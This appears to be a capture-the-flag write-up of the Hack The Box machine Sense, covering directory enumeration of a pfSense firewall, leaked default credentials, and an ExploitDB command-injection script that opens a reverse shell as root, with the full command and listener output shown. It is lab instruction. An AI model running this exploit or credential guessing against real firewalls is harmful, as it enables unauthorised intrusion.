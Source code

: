 # Sense: 10.10.10.60

## Hints

- Admin access is all about directory enumeration and default creds
- Code execution is all about software version
- Privesc may not be required!

## nmap

Starting with the usual `nmap` scan. Interesting ports:

```none
80/tcp  open  http       lighttpd 1.4.35
443/tcp open  ssl/https?
```

## 80 + 443: Recon + Gobuster

Browsing to the website - we get redirected to port 443 (HTTPS) and the pfSense login page is displayed - a free network firewall distribution. Interesting.

![pfSense login page](screenshots/443_home.png)

Tried a couple default logins, such as:

- `admin:admin`
- `admin:sense`
- `admin:pfsense`

The last one was a lucky guess off the top of my head... and after a quick Google, the official docs on the [Default Username and Password](https://docs.netgate.com/pfsense/en/latest/usermanager/defaults.html) is `admin:pfsense`. Regardless, none of the credentials were valid. I have a friend who has a pfsense setup - and knew it has an inbuilt defense against password guessing. So I stopped password guessing and avoided the use of `hydra` - which would usually be a good option here.

The next step, try `gobuster` - with quite a few extensions and a small wordlist. The extensions were a bit of a gut instinct. I knew pfSense is written in PHP. The other extensions were selected after having a little look through the project GitHub repos.

```none
└─$ gobuster dir -t 20 -u https://10.10.10.60 -w ~/SecLists/Discovery/Web-Content/common.txt -o gobuster_443_root_common.log -k -x php,txt,sh,xml
```

Success! Found an interesting file called `changelog.txt`. 

```none
# Security Changelog 

### Issue
There was a failure in updating the firewall. Manual patching is therefore required

### Mitigated
2 of 3 vulnerabilities have been patched.

### Timeline
The remaining patches will be installed during the next maintenance window
```

This seemed like a non-vendor style changelog - so seems like a good hint. It seemed like the best thing would be to find an exploit to try - based on the hint in the `changelog.txt` file. But without a version number, it is like flying blind - and the only information I had was the machine release date. Looking at the previous `gobuster` results I decided to extend the search with some other wordlists. Tried a couple, then got lucky.

```none
└─$ gobuster dir -t 20 -u https://10.10.10.60 -w ~/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -o gobuster_443_root_medium.log -k -x php,txt,sh
```

Got another interesting file named `system-users.txt`.

```none
####Support ticket###

Please create the following user


username: Rohit
password: company defaults
```

The `company defaults` threw me for a second, and then realised it probably referred to the vendor defaults. Tried the following credentials, and got access:

- Username: `rohit`
- Password: `pfsense`

![pfSense admin panel](screenshots/443_admin_panel.png)

With access to the admin panel, we can see the software version information:

```none
2.1.3-RELEASE (amd64)
built on Thu May 01 15:52:13 EDT 2014
FreeBSD 8.3-RELEASE-p16
```

## Getting Code Execution

With access to the admin panel and the exact version number of the pfSense software - time to go looking for code execution to get a shell. Looking for `pfsense` in `searchsploit` got a lot of results.

```none
└─$ searchsploit pfsense                                          
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
pfSense - 'interfaces.php?if' Cross-Site Scripting                                | hardware/remote/35071.txt
pfSense - 'pkg.php?xml' Cross-Site Scripting                                      | hardware/remote/35069.txt
pfSense - 'pkg_edit.php?id' Cross-Site Scripting                                  | hardware/remote/35068.txt
pfSense - 'status_graph.php?if' Cross-Site Scripting                              | hardware/remote/35070.txt
pfSense - (Authenticated) Group Member Remote Command Execution (Metasploit)      | unix/remote/43193.rb
pfSense 2 Beta 4 - 'graph.php' Multiple Cross-Site Scripting Vulnerabilities      | php/remote/34985.txt
pfSense 2.0.1 - Cross-Site Scripting / Cross-Site Request Forgery / Remote Comman | php/webapps/23901.txt
pfSense 2.1 build 20130911-1816 - Directory Traversal                             | php/webapps/31263.txt
pfSense 2.2 - Multiple Vulnerabilities                                            | php/webapps/36506.txt
pfSense 2.2.5 - Directory Traversal                                               | php/webapps/39038.txt
pfSense 2.3.1_1 - Command Execution                                               | php/webapps/43128.txt
pfSense 2.3.2 - Cross-Site Scripting / Cross-Site Request Forgery                 | php/webapps/41501.txt
Pfsense 2.3.4 / 2.4.4-p3 - Remote Code Injection                                  | php/webapps/47413.py
pfSense 2.4.1 - Cross-Site Request Forgery Error Page Clickjacking (Metasploit)   | php/remote/43341.rb
pfSense 2.4.4-p1 (HAProxy Package 0.59_14) - Persistent Cross-Site Scripting      | php/webapps/46538.txt
pfSense 2.4.4-p1 - Cross-Site Scripting                                           | multiple/webapps/46316.txt
pfSense 2.4.4-p3 (ACME Package 0.59_14) - Persistent Cross-Site Scripting         | php/webapps/46936.txt
pfSense 2.4.4-P3 - 'User Manager' Persistent Cross-Site Scripting                 | freebsd/webapps/48300.txt
pfSense 2.4.4-p3 - Cross-Site Request Forgery                                     | php/webapps/48714.txt
pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection                    | php/webapps/43560.py
pfSense Community Edition 2.2.6 - Multiple Vulnerabilities                        | php/webapps/39709.txt
pfSense Firewall 2.2.5 - Config File Cross-Site Request Forgery                   | php/webapps/39306.html
pfSense Firewall 2.2.6 - Services Cross-Site Request Forgery                      | php/webapps/39695.txt
pfSense UTM Platform 2.0.1 - Cross-Site Scripting                                 | freebsd/webapps/24439.txt
```

Took the usual "Hack The Box Exploit Finding Approach" - ignoring exploits that were not useful, such as XSS, and other client-side exploits. Since there wasn't an exact match, tried doing some more research on this specific version of pfsense. I checked the [Releases](https://docs.netgate.com/pfsense/en/latest/releases/index.html) page on Netgate (who make pfsense) to try get more information. The security fixes for each release were not easy to navigate or disseminate. 

Then I started digging through some of the results provided by `searchsploit` and trying some of the exploits - mainly code execution exploits. Spent about 30-40 minutes messing around with no luck. I went "down" the list from the top, so it took a while to get to _pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection_. In retrospect, after trying this exploit and it working I was thinking of my methodology. After getting command injection I Googled the software version - and the first hit was what I needed?! Hindsight!

![pfSense exploit](screenshots/443_pfsense_exploit.png)

I copied the exploit using `searchsploit`:

```none
└─$ searchsploit -m php/webapps/43560.py
  Exploit: pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection
      URL: https://www.exploit-db.com/exploits/43560
     Path: /usr/share/exploitdb/exploits/php/webapps/43560.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /media/sf_share/m/sense/43560.py

```

This exploit was easy to work with. No self-signed SSL errors, and written in Python 3. Nice to use, and the exploit seemed to work out the box. Something I don't get much with Python exploits in ExploitDB. The only problem I had was not starting a reverse shell listener on my machine, which made the exploit fail silently (or without a good error). This is because the default payload is a Python reverse shell. The full syntax I used was:

```none
└─$ python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.2 --lport 9001 --username rohit --password pfsense
CSRF token obtained
Running exploit...
Exploit completed
```

And... command execution and a reverse shell as `root`. It was pretty easy once I got the right exploit!

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.60] 19994
sh: can't access tty; job control turned off
# id
uid=0(root) gid=0(wheel) groups=0(wheel)
# wc -c /home/rohit/user.txt
      32 /home/rohit/user.txt
# wc -c /root/root.txt
      33 /root/root.txt
```

Done!

## Lessons Learned

- Remember to try different wordlists logically (e.g., small with lots of extensions to large with a few/no extensions)
- Stop relying on the go-to tools, like `searchsploit` in this case, to find exploits

## Useful Resources

- [HackTheBox Sense - ippsec](https://www.youtube.com/watch?v=d2nVDoVr0jE)
- [HTB: Sense by 0xdf](https://0xdf.gitlab.io/2021/03/11/htb-sense.html)

